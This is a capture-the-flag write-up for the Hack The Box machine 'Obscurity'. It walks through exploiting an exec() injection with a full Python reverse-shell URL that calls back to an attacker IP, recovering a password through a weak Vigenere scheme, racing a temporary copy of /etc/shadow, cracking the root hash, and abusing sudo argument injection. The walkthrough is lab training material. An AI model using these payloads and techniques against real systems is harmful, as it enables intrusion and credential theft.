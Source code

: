 ```yaml
---
layout: writeup
title: Obscurity
description: HTB writeup
logo: /assets/img/writeups/obscurity_logo.png
show-avatar: false
permalink: /writeups/obscurity.html
OS: Linux
difficulty: Medium
release: 30 Nov 2019
creator: <a href="https://www.hackthebox.eu/home/users/profile/83743">clubby789</a>
cleared: 3 Dec 2019
published: 2019 12 03
redirect_from: /walkthroughs/obscurity.html
---
```


**Cliffs:** Find source code for the webserver in hidden directory and analyze it to figure out RCE that will give low privilege shell. In user directory there is a python encryption script we can use to figure out users password. As user we can run a python script meant to replace SSH that we can use to gain access to roots password hash or simply to access the root flag.

<h2 align="center">Enumeration</h2>


Starting with standard nmap scan...

```
# Nmap 7.80 scan initiated Sun Dec  1 14:14:06 2019 as: nmap -sC -sV -p- -oN nmapscan.txt 10.10.10.168                                                        
Nmap scan report for 10.10.10.168                             
Host is up (0.076s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)   
80/tcp   closed http 
8080/tcp open   http-proxy BadHTTPServer
_http-server-header: BadHTTPServer
_http-title: 0bscura
9000/tcp closed cslistener
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec  1 14:16:09 2019 -- 1 IP address (1 host up) scanned in 123.63 seconds
```

If we navigate to the website on port **8080** we see a webpage for a company with a rather interesting take on security. If we run **gobuster** or similar we won't find any useful directories. However reading the page, at the bottom we see 

![secret](/assets/img/writeups/obscurity_webpage.png)

So we know there is a file for us to find, so lets use the following **wfuzz** command to find the directory

```
wfuzz -c -w /usr/share/wordlists/dirb/small.txt 10.10.10.168:8080/FUZZ/SuperSecureServer.py
```

![wfuzz](/assets/img/writeups/obscurity_wfuzz.png)

Navigating to *ht<span>tp://</span>10.10.10.168:8080/develop/SuperSecureServer.py* we are greeted by the code.

Analyzing the code, in the serveDoc() function we see

```python
info = "output = 'Document: {}'" # Keep the output for later debug
exec(info.format(path)) # This is how you do string formatting, right?
```

Since we have control over the path, we can use that to get exec() to run code we want. We just need to make sure and correctly handle the closing of quotes, since the first part of the info variable is something we don't have control over (output = 'Document: ), nor is the very last character (a single quote). We want to get it into the form

```python
output = 'Document: '
<our code for a shell>
''
```

but since it's all one line in a string, we will use a semi colon. So info will actually look like

```python
info = "output = 'Document: ';<our code for a shell>;''"
```

so our path will be

```
10.10.10.168:8080/';<our shell code>;'
```

So what should we use to get a shell? We know the box is running python, so lets use the python reverse shell from <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python">PayloadsAllTheThings</a>. The script has already imported socket, subprocess, and os, so we can remove those. So our path is the following

```
10.10.10.168:8080/';s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash");'
```

If we set a netcat listener and visit that url, we will found ourselves with a shell as user **www-data**

![shell](/assets/img/writeups/obscurity_shell.png)

Enumerating the machine will turn up a number of interesting files in the */home/robert* directory.
We have **check.txt** which outputs

```
www-data@obscure:/home/robert$ cat check.txt 
Encrypting this file with your key should result in out.txt, make sure your key is correct! 
```

So it looks like we have a plaintext and a ciphertext (**out.txt**), so let's take a look at **SuperSecureCrypt.py** and see if we can figure out how it's encrypting things. Looking at the encrypt() function

```python
def encrypt(text, key):
    keylen = len(key)
    keyPos = 0
    encrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr + ord(keyChr)) % 255)
        encrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return encrypted
```

The key line is

```python
newChr = chr((newChr + ord(keyChr)) % 255)
```

It is simply tacking a character from the plaintext and adding it to a character from the key and outputting the resulting character. This is a **Vigenere cipher**. So if we have *plaintext + key = ciphertext*, to get the key just like solving any formula we subtract plaintext from each side of the equation and have *key = ciphertext - plaintext*. We have a plaintext and ciphertext pair (check.txt and out.txt), so we could write a simple script to do the subtraction, but we don't need to. If we look at the decrypt() function we see it operates by subtracting the key from the ciphertext to give the plaintext. If instead we give it our plaintext as they key, it will give us the key. We copy the necessary files to */dev/shm* since we don't have write access in the robert directory

```
www-data@obscure:/dev/shm$ python3 SuperSecureCrypt.py -i out.txt -o key.txt -k "Encrypting this file with your key should result in out.txt, make sure your key is correct!" -d
################################
#           BEGINNING          #
#    SUPER SECURE ENCRYPTOR    #
################################
  ############################
  #        FILE MODE         #
  ############################
Opening file out.txt...
Decrypting...
Writing to key.txt...
www-data@obscure:/dev/shm$ cat key.txt
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovich
```

The key is **alexandrovich**, which we can now use to decrypt **passwordreminder.txt**, which decrypts to **SecThruObsFTW**, which is the ssh and user pass for robert, we now have access to user.txt

<h2 align="center">On To Root!</h2>
So now that we are user we can check out the **BetterSSH.py** file in */home/robert/BetterSSH/*. We could read it before, but as we will see the code is accessing the /etc/shadow file, so we need root permisions to make it work. Which we fortunately have with robert as we can see below

```
robert@obscure:~/BetterSSH$ sudo -l
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

The script gets the password hashes from the */etc/shadow* file and then compares it to the hash of the password you enter for a user. If they match then it gives you a faux shell. 



**Method #1:** 
Fortunatelyfor us, for some reason the script also copies the output of the shadow file to a random file in */tmp/SSH*/ as shown in the snippet of code below

```python
passwordFile = '\n'.join(['\n'.join(p) for p in passwords]) 
    with open('/tmp/SSH/'+path, 'w') as f:
        f.write(passwordFile)
    time.sleep(.1)
```

Unfortunately after it pauses for .1 seconds, every code path then leads to the deletion of that file. However, we don't need anymore time than that. Using **Watch** which is a linux program that runs a command repeatedly and also allows us to set the interval to .1 seconds, we will watch */tmp/SSH*/ and have it copy the directory every .1 seconds. When the password file is written to that directory, watch will grab a copy of it before it's deleted. We issue the following command

```
robert@obscure:~/BetterSSH$ watch -n .1 cp /tmp/SSH/* /dev/shm
```

Also make sure to create the */SSH/* directory if it doesn't already exist. Watch takes over the terminal, so we will need to open a seperate SSH session as robert so we can run the python script.

```
robert@obscure:/dev/shm$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py 
Enter username: Hilbert
Enter password: blahblahblah
Invalid user
robert@obscure:/dev/shm$ ls 
BCozoXF5
```

We have succesfuly copied the file. Looking at the file we can see the hash for user root is

```
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
```

Lets crack it! Using **John the ripper** and the wordlist **rockyou.txt**. We issue the following commands
![crack](/assets/img/writeups/obscurity_mercedes.png)

As we can see the root password is *mercedes*. And we now have access to the root flag.

![root](/assets/img/writeups/obscurity_root.png)



**Method #2:**
Looking at the script we see If we enter a correct password for user, we are authenticated and get a "shell"

```python
if session['authenticated'] == 1:
    while True:
        command = input(session['user'] + "@Obscure$ ")
        cmd = ['sudo', '-u',  session['user']]
        cmd.extend(command.split(" "))
        proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)

        o,e = proc.communicate()
        print('Output: ' + o.decode('ascii'))
        print('Error: '  + e.decode('ascii')) if len(e.decode('ascii')) > 0 else print('')
```

Every command we enter is prefixed with *sudo -u \<username\>*, but since the script is running as root we can just append another *-u* flag on to execute commands as root. Since we have the password for robert we are able to authenticate via the script
![method2](/assets/img/writeups/obscurity_method2.png)
